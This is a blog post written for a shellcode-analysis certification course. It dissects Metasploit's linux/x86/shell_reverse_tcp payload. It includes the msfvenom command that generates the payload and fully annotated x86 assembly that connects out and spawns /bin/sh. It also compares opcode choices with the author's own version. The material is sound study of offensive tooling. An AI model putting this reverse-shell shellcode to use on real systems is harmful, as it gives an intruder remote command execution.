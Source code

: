 ```yaml
---
layout: post
title: "SLAE Problem 5.1: Msfvenom Analysis of linux/x86/shell_reverse_tcp"
description: "Analysis of Msfvenom shellcode: linux/x86/shell_reverse_tcp"
tags: [asm, shellcode, msfvenom]
---
```



This blog post has been created for completing the requirements for the SecurityTube
Linux Assembly Expert certification:
[<http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert>](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert)

Student ID: SLAE-824

## Requirements

- Choose at least 3 shellcode samples created using Msfvenom for linux/x86
- Use GDB/Ndisasm/Libemu to dissect the functionality of the shellcode
- Present your analysis

### Analysis

Since I had created a reverse tcp shellcode for assignment 2 of the SLAE
I decided that it would be interesting to look at msfvenom's version and
to see how it differed from mine. To do so I did the following:

Generate a linux/x86/shell_reverse_tcp shellcode using:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=127.1.1.1 R > revshell.bin
{% endhighlight %}

It defaults to LPORT=4444 so there is no need to set it.

Next, I ran the shellcode using Libemu and generated a .dot file:

{% highlight bash %}
/usr/bin/sctest -vvv -S -s 10000 -G revshell.dot < revshell.bin
{% endhighlight %}

I then converted the dot file to a png using:

{% highlight bash %}
dot -Tpng revshell.dot > revshell.png
{% endhighlight %}

Which gives us:

<img src="revshell.png" alt="revshell.dot" style="width: 500px;"/>

Cool. Looking at the purple boxes we see that the system calls that are
being used are:

- socket
- dup2
- connect
- execve

Those were the same socket calls that were used in the reverse shell
for assignment 2. Lets analyze things at the assembly level:

#### MSFVenom Socket:
{% highlight nasm %}
; Socket
;; Clear out ebx
xor ebx,ebx

;; Clear out eax as eax is the implied destination
;; When anything is multiplied by 0 it will be zero
;; I'm not sure why this is done as the byte count ends up
;; being the same. Example:

;; xor ebx, ebx
;; mul ebx
;; = "\x31\xDB\xF7\xE3"

;; Versus:
;; xor eax, eax
;; xor ebx, ebx
;; = "\x31\xC0\x31\xDB"

mul ebx

;; Protocol INADDR_ANY Accept on any interface 0x00000000
;; Push this value onto the stack
push ebx

;; Increment ebx. This is pushed to the stack for
;; SOCK_STREAM socket type of 1 as well as left in
;; the register as 1 is the sys_socket syscall number
inc ebx
push ebx

push byte 0x2 ;; Domain af_inet sets protocol family to ip protocol 2
mov ecx,esp ;; Pointer to sys_socket args
mov al,0x66 ;; socketcall syscall
int 0x80 ;; Call socket syscall

; Save returned file descriptor
; Not only does it save the file descriptor but
; It sets up ebx for the Dup2 call
; Which is the "New File Descriptor"
; That will be used in place of the "Old File Descriptor"
; Killing 2 birds with 1 stone
xchg eax,ebx

; Load 0x2 into ecx for the dup2 loop counter and fd number
pop ecx

; Dup2 loop
mov al,0x3f ; Place dup2 syscall in al
int 0x80 ; Duplicate fd
dec ecx ; Decrement to the next file descriptor number
jns 0xfffffffb ; Loop

; Connect
; Build sockaddr_in structure
push dword 0x101017f ; inet_addr("127.1.1.1") = 0x0101017f

;; Push port 4444 in big endian network byte order
;; and sin_family of AF_INET
;; This places 2  values on the stack in 1 operation
;; This does seem to introduce a null byte though...
push dword 0x5c110002

;; Mov pointer to sockaddr_in structure
mov ecx,esp

mov al, 0x66 ;; socketcall syscall
push eax ; addrlen
push ecx ; sockaddr_in struct pointer
push ebx ; socket file descriptor
mov bl,0x3 ; sys_call 3 which is connect()
mov ecx,esp ; pointer to connect args
int 0x80

; Execve
push edx ; 0x00000000
push dword 0x68732f6e ;"hs/n"
push dword 0x69622f2f ;"ib//"
mov ebx,esp ; place filename string in ebx
push edx ; 0x00000000
push ebx ; push pointer to program string
mov ecx,esp ; place pointer program args in ecx
mov al,0xb ; execve syscall
int 0x80
{% endhighlight %}

All in all this MSFvenom shellcode looks very similar to the one I had created
in assignment 2. There are some slight differences like using `mul` to clear
out `eax` as opposed to just using `xor`. One cool trick the MSFvenom version
was doing was using a push dword with the port and sin_family in 1 operation.
`push dword 0x5c110002` instead of what I had in my version:

        push word 0x5c11 ; sin_port=4444 (network byte order)
        push word bx     ; sin_family=AF_INET (0x2)

If we look at the objdump of a little nasm program to compare the instructions
we see:

1. Using 2 xor operations yields the same number of bytes/opcodes as using an xor and a mul instruction
2. Using a single dword push instruction instead of 2 push word instructions yields 1 less byte/opcode but it does introduce a null byte.

<img src="opcodeComparison.png" alt="opcodeComparison.png" style="width: 500px;"/>

It was really interesting to see what MSFvenom generated shellcode looks like.
Doing this exercise has taken a bit of the mystique of MSFVenom away and I look
forward to analyzing more shellcode from it to see what else I can learn.
